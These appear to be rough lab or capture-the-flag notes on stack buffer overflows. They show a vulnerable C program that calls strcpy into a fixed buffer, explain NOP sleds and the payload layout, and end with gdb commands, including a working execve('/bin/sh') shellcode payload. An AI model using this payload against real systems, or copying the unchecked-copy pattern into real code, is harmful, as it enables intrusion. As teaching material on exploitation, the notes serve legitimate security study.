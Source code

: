 ### Buffer Overflows
overflow-3 (C):
```
void copy_arg(char *string)
{
	char buffer[140];
	strcpy(buffer, string);
	printf("%s\n", buffer);
	return 0;
}

int main(int argc, char **argv)
{
	printf("Heres a program that echos out your input\n");
	copy_arg(argv[1]);
}
```

In theory, this looks like it would work quite well. However, memory addresses may not be the same on different systems, even across the same computer when the program is recompiled. So we can make this more flexible using a NOP instruction. A NOP instruction is a no operation instruction - when the system processes this instruction, it does nothing, and carries on execution. A NOP instruction is represented using \x90. Putting NOPs as part of the payload means an attacker can jump anywhere in the memory region that includes a NOP and eventually reach the intended instructions. This is what an injection vector would look like:

NOP sled | shell code | memory address
in shellcode, memory addresses and NOP sleds are in hex code. To make it easy to pass the payload to an input program use python:
print -c "print(NOP * no_of_nops + shellcode + random_data \* no_ofrandomdata + memory_address)"

- Find the address of the start of the buffer and the stard address of the return address
- Calcualte the difference between these addresses so you know how much data to enter to overflow
- Start out by entering the shellcode in the butter, entering random data between the shellcode and the return addressm and the address of the buffer in the return address

-----------------------
Stack Bottom
-
Address of Buffer(overwritten old return address)
Random data(overwritten saved registers)
Random Data(inside buffer)
shellcode(inside buffer)
-
Stack Top

Hexadecimal value of A is 41
`gdb buffer-overflow`
`run $(python -c "print('A'\*158)")`

run $(python -c "print('\x90'*90 + '\x6a\x3b\x58\x48\x31\xd2\x49\xb8\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x49\xc1\xe8\x08\x41\x50\x48\x89\xe7\x52\x57\x48\x89\xe6\x0f\x05\x6a\x3c\x58\x48\x31\xff\x0f\x05' + '\x90'*22 + 'B'*6)")
